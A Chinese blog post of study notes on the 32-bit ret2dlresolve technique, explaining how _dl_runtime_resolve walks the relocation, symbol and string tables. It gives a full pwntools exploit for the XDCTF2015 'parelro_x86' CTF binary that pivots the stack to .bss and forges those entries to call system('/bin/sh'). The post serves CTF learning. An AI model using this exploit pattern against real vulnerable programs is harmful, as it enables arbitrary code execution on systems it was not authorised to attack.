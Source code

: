 # ret2dlresolve学习记录


花了一个上午时间，看了一下ret2dlresolve的基本原理与基本的利用过程。觉得步骤与相关细节要素还是蛮多的，为防止今后某一天再用到的时候忘得干干净净，特此记录一些我个人的理解，加深印象。

<!--more-->

## 0x00 dlresolve原理

以下内容是32位x86平台相关，64位的ret2dlresolve我还没看。

这一部分内容需要记住的就是符号解析的过程，也是dlresolve执行的过程，同时也是ret2dlresolve生效的核心原理。

在符号解析过程中，有三种数据结构：`ELF32_Rel`、`ELF32_sym`、`.dynstr中的字符串`，分别位于`.rel.plt`、`.dynsym`、`.dynstr`节（section），查看这些节的命令为

```bash
readelf -S elf_name
```

在程序第一次调用某个函数时，关于plt处指令以及push操作什么的就不细说了，我认为整个流程大致可以这么理解：

- `func@plt`处的指令相当于先push一个`offset`值，然后调用`plt[0]`处的指令，这条指令相当于执行`_dl_runtime_resolve(link_map_obj, reloc_index)`，这里的`reloc_index`就是前面`func@plt`push的`offset`

- 接下来就是三步走了，从函数原型`_dl_runtime_resolve(link_map_obj, reloc_index)`出发，根据`reloc_index`（相对于`.rel.plt`的字节偏移量，单位：字节）找到`.rel.plt`中的`ELF32_Rel`对象（大小为8字节），其中记录了一个`r_info`
- 再根据`r_info`（相对于`.dynsym`的索引，单位：0x10字节）找到`.dynsym`中的`ELF32_sym`类型对象（大小为0x10字节）
- 再根据`ELF32_sym`中的`st_name`字段（相对于`.synstr`的字节偏移量，单位：字节），找到`.dynstr`中的字符串，也就是函数名（正常执行流程是这样的），然后dlresolve从libc中查找，再计算实际地址，将其填入`ELF32_Rel`对象中的`r_offset`字段...

整个流程概括起来就是，`func@plt`给`_dl_runtime_resolve`传参数，`_dl_runtime_resolve`根据其参数去查询上面的那几个表获取函数名称，然后对libc进行解析，获取实际地址，写入got表。

## 0x01 攻击方法

感觉很多题都可以栈迁移，再加上如果`.bss`段可写的话，我们就可以控制将函数栈迁移到自己构造的栈上。

 于是，最常规的攻击步骤就是：

- 栈迁移，然后调用`plt[0]`处指令
- 控制栈上的参数（对于`_dl_runtime_resolve`而言），以及想要调用的函数的参数（比如`system`）
- 再在栈上构造对应该参数的`ELF32_Rel`类型对象
- 再在栈上构造对应`ELF32_Rel`中`r_info`的`ELF32_sym`类型对象
- 再在栈上构造对应于`ELF32_sym`中`st_name`的字符串

所以一个典型的exp为：

```python
from pwn import *
elf = ELF('./parelro_x86')
offset = 112
read_plt = elf.plt['read']

ppp_ret = 0x08048619 # ROPgadget --binary bof --only "pop|ret"
pop_ebp_ret = 0x0804861b # ROPgadget --binary parelro_x86 | grep 'pop ebp ; ret'
leave_ret = 0x08048458 # ROPgadget --binary bof --only "leave|ret"

stack_size = 0x800
bss_addr = 0x0804a040 # readelf -S bof | grep ".bss"
plt_0 = 0x08048380 # objdump -d -j .plt bof  执行 <push link_map，jmp dl_resolve>
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof

# 栈迁移的目的地
base_stage = bss_addr + stack_size

index_offset = (base_stage + 28) - rel_plt # base_stage + 28指向fake_reloc，减去rel_plt即偏移
write_got = elf.got['write']
dynsym = 0x080481d8
dynstr = 0x08048278

# fake_sym_addr 地址按照0x10字节对齐
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # 这里的对齐操作是因为dynsym里的Elf32_Sym结构体都是0x10字节大小
fake_sym_addr = fake_sym_addr + align

index_dynsym = (fake_sym_addr - dynsym) // 0x10 # 除以0x10因为Elf32_Sym结构体的大小为0x10，得到write的dynsym索引号
r_info = (index_dynsym << 8) | 0x7 # 要满足：ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT，即最低字节要为7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 0x10) - dynstr # 加0x10因为Elf32_Sym的大小为0x10
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)


r = process('./parelro_x86')

r.recvuntil('Welcome to XDCTF2015~!\n')
payload = b'A' * offset
payload += p32(read_plt) # 读100个字节到base_stage
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret) # 把base_stage pop到ebp中
payload += p32(base_stage)
payload += p32(leave_ret) # mov esp, ebp ; pop ebp ;将esp指向base_stage
r.sendline(payload)

cmd = b"/bin/sh"

# stage3: 
# 栈迁移，调plt[0]，传入伪造的 index_offset，指向我们自定义的.rel.plt表项内容
# 并且控制r_info，指向我们伪造的.dynsym表项；再控制.dynsym表项中的st_name，指向我们控制的.dynstr表项内容
# --------> base_stage
payload2 = b'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += b'AAAA'
payload2 += p32(base_stage + 80) # 对应system('/bin/sh')
payload2 += p32(0xdeadbeef) # 后面的2个参数不需要了
payload2 += p32(0xdeadbeef)
# (base_stage+28)的位置
payload2 += fake_reloc
# (base_stage+36)的位置
payload2 += b'B' * align
# (fake_sym_addr)的位置
payload2 += fake_sym
payload2 += b"system\x00"
payload2 += b'A' * (80 - len(payload2))
# base_stage + 80
payload2 += cmd + b'\x00'
payload2 += b'A' * (100 - len(payload2))
# payload2结束，刚好100字节

r.sendline(payload2)
r.interactive()
```

写一遍下来，感觉在没有完完全全弄透彻的情况下，通过文字描述清晰还是比较难的，但也只能先这样了:no_mouth:



## 参考链接：

- ctf竞赛权威指南(pwn篇) 10.6 ret2dl-resolve
- [Return-to-dl-resolve](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/) （复现平台：ubuntu16）
- [CTF Wiki: ret2dlresolve](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/ret2dlresolve/)


